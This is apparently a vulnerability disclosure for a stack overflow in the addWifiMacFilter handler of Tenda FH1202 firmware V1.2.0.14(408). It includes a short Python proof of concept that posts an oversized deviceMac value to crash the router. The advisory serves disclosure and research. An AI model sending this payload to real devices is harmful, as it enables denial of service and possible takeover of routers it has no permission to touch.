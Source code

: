 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v4` variable receives the `deviceMac` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v4` can trigger this security vulnerability.

![image-20240319224933815](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224933815.png)

![image-20240319224915736](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224915736.png)

![image-20240319224924004](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224924004.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": payload, "deviceId":1}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319224841939.png)